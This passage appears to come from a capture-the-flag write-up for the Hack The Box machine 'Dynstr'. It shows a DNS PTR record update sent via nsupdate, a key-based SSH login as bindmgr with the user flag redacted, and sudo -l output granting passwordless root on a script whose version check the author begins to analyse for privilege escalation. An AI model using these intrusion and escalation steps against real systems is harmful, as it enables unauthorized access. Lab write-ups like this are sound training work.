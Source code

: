 ```
Outgoing update query:
;; ->>HEADER<<- opcode: UPDATE, status: NOERROR, id:      0
;; flags:; ZONE: 0, PREREQ: 0, UPDATE: 0, ADDITIONAL: 0
;; UPDATE SECTION:
250.16.10.10.in-addr.arpa. 300  IN      PTR     check.infra.dyna.htb.

> 

> send
send
> quit
quit
```
Now, we will SSH into the server and we would realize that we no longer require a password to SSH into the server.
```
┌──(kali㉿kali)-[~/Desktop]
└─$ ssh -i ssh_key bindmgr@10.10.10.244                                                         8 ⚙
Last login: Tue Jun  8 19:19:17 2021 from 6146f0a384024b2d9898129ccfee3408.infra.dyna.htb
bindmgr@dynstr:~$ ls
support-case-C62796521  user.txt
bindmgr@dynstr:~$ cat user.txt
<Redacted user flag>
bindmgr@dynstr:~$ 
```

### Code Analysis of bindmgr.sh
First, we will run ```sudo -l``` to check the permissions of the binaries and we realize that ```/usr/local/bin/bindmgr.sh``` can be executed with root privileges without any password.
```
bindmgr@dynstr:~$ sudo -l
sudo: unable to resolve host dynstr.dyna.htb: Name or service not known
Matching Defaults entries for bindmgr on dynstr:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User bindmgr may run the following commands on dynstr:
    (ALL) NOPASSWD: /usr/local/bin/bindmgr.sh
bindmgr@dynstr:~$ 
```

The first part of the code shows that the current directory would require a ```.version``` file with a version number as the command ```cat .version``` is being executed.
```
# Check versioning (.version)
echo "[+] Running $0 to stage new configuration from $PWD."
if [[ ! -f .version ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 42
fi
if [[ "`cat .version 2>/dev/null`" -le "`cat $BINDMGR_DIR/.version 2>/dev/null`" ]] ; then
    echo "[-] ERROR: Check versioning. Exiting."
    exit 43
fi
```
